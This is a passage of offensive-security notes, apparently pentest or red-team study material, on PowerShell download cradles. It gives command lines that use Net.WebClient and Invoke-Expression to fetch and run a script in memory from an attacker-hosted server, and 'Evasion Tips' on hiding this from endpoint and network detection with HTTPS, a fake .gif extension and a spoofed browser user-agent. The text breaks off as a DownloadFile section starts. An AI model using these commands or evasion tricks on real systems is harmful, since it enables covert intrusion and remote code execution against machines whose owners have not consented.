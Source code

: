 Instantiate our System.Net.WebClient class as the $downloader variable
Create our $payload variable (URL to the script)
Create our $command variable
Execute our $command with the **Invoke-Expression** (iex) cmdlet


### Example - Download String
save in Get-ProcessPaths.ps1
```powershell
Get-Process | Format-List -Property Name, Path
```

Host in a web server
Then:
```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Get-ProcessPaths.ps1")
```

- The DownloadString method will execute our remote script in the PowerShell process memory, so in regard to not dropping an artifact to disk, its a great way to stay under the radar of endpoint security solutions that are not monitoring powershell memory.

> Evasion Tips [+]
It should be noted that where possible when hosting your remote PowerShell script, to have an SSL certificate configured on the attacker machine.
This helps in evading over-the-wire heuristics as our traffic will go over HTTPS.
In the previous examples, we simply used HTTP, which could easily be detected.


> Evasion Tips [+]
Another trick we can use which might help in evading basic file extension heuristics is to give our Powershell script a different extension, For instance **Logo.gif**. PowerShell will still execute it as a .ps1 script

```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Logo.gif")
```

> Evasion Tips [+]
Net.WebClient class allows us to specify a custom user-agent string when sending the request to our attacker URL.
This can help us evade detection mechanisms that are flagging on abnormal user-agent strings crossing the wire.
We can do that with the **Headers.Add** method:

```powershell

$downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
	// we can insert that in the second line of our code. Just after declaring the $downloader variable

```

### Example - DownloadFile
This method will download your executable to disk
Although noisy and not recommended if trying to remain stealthy, its still sometimes a handy method to quickly download a file to the target system.
